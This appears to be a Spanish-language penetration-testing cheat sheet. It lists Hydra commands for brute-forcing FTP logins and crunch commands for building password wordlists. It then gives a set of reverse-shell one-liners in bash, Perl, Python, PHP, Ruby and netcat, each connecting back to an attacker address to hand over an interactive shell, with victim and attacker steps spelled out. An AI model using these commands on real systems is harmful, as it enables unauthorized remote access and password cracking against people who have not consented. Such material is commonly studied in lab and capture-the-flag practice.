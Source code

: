 **Usando Hydra para realizar un ataque de fuerza bruta hacia el servicio de FTP**  
{% highlight markdown %}
hydra IP ftp -l username -P wordlist -t thread(default 16) -vV
hydra IP ftp -l username -P wordlist -e ns -vV
{% endhighlight %}    

**Generacion de diccionarios**  

{% highlight bash %}
crunch 15 15 -f /usr/share/crunch/charset.lst symbols14 -t Th4C00lTheacha@ -o bruteforce.dic
{% endhighlight %}    

{% highlight bash %}
---------------------
-- COMANDOS UTILES --
---------------------
for i in {0..9}; do echo Th4C00lTheacha$i; done >> hoola.txt
{% endhighlight %}    


## Shell-Reverse

**BASH**
{% highlight bash %}  
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
{% endhighlight %}    

**PERL**
{% highlight perl %}  
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
{% endhighlight %}     

**Python**
{% highlight python %}  
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}     

**PHP**
{% highlight php %}  
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
{% endhighlight %}     

**RUBY**
{% highlight ruby %}
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
{% endhighlight %}     

**Netcat**
{% highlight bash %}
//Ejecutar lo siguiente en la victima:  
// IP VICTIMA = 10.10.10.69

nc -e /bin/sh 10.10.14.10 1234

//Luego de ejecutar lo anterior en el equipo victima, ejecutar lo siguiente en la maquina atacante:  
// IP ATACANTE = 10.10.14.10

nc -nvlp 10.10.10.69

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
{% endhighlight %}     
